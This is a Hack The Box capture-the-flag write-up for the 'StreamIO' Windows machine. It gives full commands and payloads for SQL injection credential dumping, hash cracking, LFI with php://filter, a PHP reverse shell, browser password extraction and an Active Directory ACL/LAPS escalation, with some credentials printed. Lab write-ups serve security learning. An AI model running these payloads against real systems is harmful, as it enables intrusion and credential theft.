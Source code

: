 ![image](https://github.com/user-attachments/assets/be331a57-4f66-4989-9c4d-48496dd19772)![StreamIO](https://labs.hackthebox.com/storage/avatars/21240942d301a96e80574353a96b9003.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [JDgodd](https://app.hackthebox.com/users/481778) & [nikk37](https://app.hackthebox.com/users/247264)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---






- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.158 -oG scan
	/opt/extractports scan
	nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49704 -sCV -Pn 10.10.11.158 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/a679fee6-690b-4267-b4c8-61c7ca2ec1af)

- I found the domain `streamIO.htb` and `watch.streamIO.htb` add it to the file in the `hosts` file
- I list the mails servers and find a new domain `dc.streamIO.htb` and add it to the `hosts` file

	```python
	dig @10.10.11.158 streamIO.htb mx
	```
	
	![image](https://github.com/user-attachments/assets/a678d8c0-2c6b-481f-a9d4-fc24c3ea7e13)

- I enumerate system users using kerbrute and a dictionary with common user names. I find Administrator and martin. I'm trying to get the password of these users but I can't get it.

	```python
	kerbrute userenum --dc 10.10.11.158 -d streamIO.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
  ![image](https://github.com/user-attachments/assets/5dd30f95-91b4-4bf7-8ae1-dbf5a7501cc3)

- I continue to look at web pages using the different domains I have found previously.
	
	![image](https://github.com/user-attachments/assets/4896e8c7-31f9-411c-b543-643319cbf475)

- After searching through the web pages, nothing relevant can be found. I decide to list files that have a number of typical extensions and I find search.php

	```python
	ffuf -c -t 200 -w /usr/share/wordlists/dirb/common.txt  -u https://watch.streamio.htb/FUZZ -e .txt,.php,.js,.html,.py,.sh,.asp,.aspx,.bak
	```

 - This page shows a list of movies and allows us to perform searches. I try to do a search by putting a single quotation mark and I notice that no movie is returned. I interpret that it can have caused an internal error that I cannot see but that can be susceptible to code injections.
 
	![image](https://github.com/user-attachments/assets/80839cc8-ff58-4ab3-abbd-407780d1a34c)

-  Being against a MS SQL I decide to consult how many columns the query is composed of and I notice that it is composed of 6 and the content of columns 2 and 3 I can see them.

```python
10' union select 1,2,3,4,5,6-- -
```

- Knowing I am doing different queries to get information about the structure of the DDBB and its content.

```python
#DDBB name
10' union select 1,schema_name,3,4,5,6 from information_schema.schemata-- -
#Table names
10' union select 1,table_name,3,4,5,6 from information_schema.tables-- -
#Column names 
10' union select 1,concat(column_name,',',table_name),3,4,5,6 from information_schema.columns-- -
#content of table users 
10' union select 1,concat(username,',',password),3,4,5,6 from users-- -
```

- I get to list the content of the users table containing the username and password columns. It seems that the password is encrypted in ms5. I try to break the passwords and succeed for a few of them.
	
	```python
	john -w=/usr/share/wordlists/rockyou.txt credentialsMD5 --format=Raw-MD5
	```
	
![image](https://github.com/user-attachments/assets/ddc4914b-0ff6-4fa2-ab44-58f0d885f9df)

- I try the credentials I found in the streamIO.htb login panel and I get access with the user yoshihide. I can see the admin panel but I can't find anything relevant.
- I notice that when I move through the parts of the admin panel in the url only one parameter changes. I decide to brute force that part to look for new available pages. find a new page when I put "debug".

	```python
	ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=61ajbbchdgvc3oobbqh0ahsi3t" -u 'https://streamio.htb/admin/index.php?FUZZ=' | grep -v 'tatus: 200, Size: 1678, Words: 85,'
	```

- I try to read internal system files (LFI) and I manage to read files.
	
	```python
	https://streamio.htb/admin/index.php?debug=c:\Windows\System32\Drivers\etc\hosts
	```

- Since I can read files, I decide to apply a wrapper so that the pages are not interpreted and I can see their content.

```python
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=..\index.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=..\about_include.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=master.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=index.php
```

- Inside the index.php file I find some credentials to connect to the DDBB. I realize that in this case a different database is used than the one I was using in the previous part so when I have access it would be interesting to consult these new tables.

	![image](https://github.com/user-attachments/assets/3e122d95-ecac-4fad-91c5-b7fc8256fde2)

- I set up a server to share a richero containing a revershell by php. Thanks to this file I manage to get a [revershell](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

	![image](https://github.com/user-attachments/assets/42045c1d-b234-48d3-baf1-0954e63e96ab)

- With this reverse shell I am the user yoshihide and I can read the first flag.
- Once inside the system, we can consult the contents of the database that I have found and that I could not consult before. 

	```python
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "SELECT name, database_id from sys.databases;exit;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "use STREAMIO; SELECT name from sys.tables;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "select * from STREAMIO.dbo.users;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "select * from streamio_backup.dbo.users;"
	```

- I find in the other database the same tables but they contain different users. I try to get the passwords in clear text and I get the one for user nikk37.

	![image](https://github.com/user-attachments/assets/62a60a60-ef9a-456d-b6dc-385401906216)

- I connect to the system via WINRM with the user nikk37 and I manage to read the first flag.

```python
evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_XXXXXXXXXXXXXcom'
```

- I look for potential ways to escalate privileges. For that I use winpeas to enumerate the system. It shows me the existence of a .db file in a firefox path. This points to obtain the credentials stored in the browser.
- In order to do this I download the key4.db file from firefox along with loggins.json. With these two files and using firepwd I can extract the stored credentials.

	```python
	python firepwd.py -d ./
	````
	
	![image](https://github.com/user-attachments/assets/fb044db7-d542-463c-b18e-3feeb6a80df5)

- I validate the credentials and I see that the user JDgodd's credentials are correct and I can connect to the system.
- I keep listing potential routes with bloodhound and find one. This user has “WriteOwner” permissions on the “Core Staff” group, so we can be included in the group.
- This group has “ReadLAPSPASSWORD” permissions. It allows to read the Local Administrator Solution password. This password is stored in the attribute “ms-MCS-AdmPwd”.

	![image](https://github.com/user-attachments/assets/591b80c5-b56f-4d0e-9913-0055e26b857a)

	```python
	Import-module .\PowerView.ps1
	
	$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
	$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword) 
	 
	Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
	Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred -Verbose
	
	ldapsearch -x -H ldap://10.10.11.158 -D  "JDgodd@streamio.htb" -w JDg0dd1s@d0p3cr3@t0r -b "dc=streamio,dc=htb" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
	```

- I get the password of the administrator user, I connect via WINRM to the system and I manage to read the second flag

	![image](https://github.com/user-attachments/assets/003463c4-24ff-4334-8054-0368ff7cfc0f)
